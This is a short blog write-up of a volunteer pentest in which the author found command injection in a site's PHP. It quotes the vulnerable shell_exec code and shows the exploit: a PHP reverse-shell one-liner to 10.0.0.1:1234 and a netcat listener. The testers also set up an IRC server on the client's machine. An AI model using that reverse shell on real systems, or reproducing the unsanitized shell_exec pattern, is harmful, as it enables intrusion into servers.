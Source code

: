 Title: Website input command injection
Date: 2014-10-02 21:00
Tags: hacking, security 
Slug: php_exec
Category: InfoSec
Author: David Mitchell
Summary: How running php_exec on raw unsanitized inputs is a good way to get shells on your box

Someone recently asked for a free pentest in a private security related 
group for a site they had been working on for a while before it went live. 
Some of us guys at [FALE](http://lockfale.com) obliged. Since it was a 
free pentest, I am taking the liberty to post about it. It was 
actually my first shell and first box I've popped that wasn't mine. So
it was a learning opportunity for me with some subtle direction by those
more experienced.

The way it worked was basically, using Burp Suite, I was able to look at
the requests made by my browser to the site, then it was a matter of trying
various inputs on some of the fields it accepted. This one in particular
took a post for an ip field that was set in a hidden field. Below is the
php code from the site URL we grabbed once we were in.

     <?php
        header('Content-Type: text/json');
        echo shell_exec('curl "http://'.$_GET['ip'].'/api/Search?category='.$_GET['category'].'&term='.urlencode($_GET['term']).'"');
     ?>

As you can see it's running a straight up shell_exec on a curl command with
the ip header field injected with no sanitization or checking format. So 
it was a simple matter of changing the header field in burp to a [remote 
shell command](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). 
PHP worked for obvious reasons, it was already installed.

     `php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`
     
I of course, first setup a simple listener using netcat on the host with 
the IP in the above command.

     netcat -l -p 1234

and boom, free shells. The machine was pretty well locked down, so escalation
from there wasn't done, and its a free pentest so we're only going to put
so much effort into it. All the same, we had some fun by attempting to 
setup a Minecraft server, turned out the box didn't have enough memory, so
we settled for setting up an IRC server.

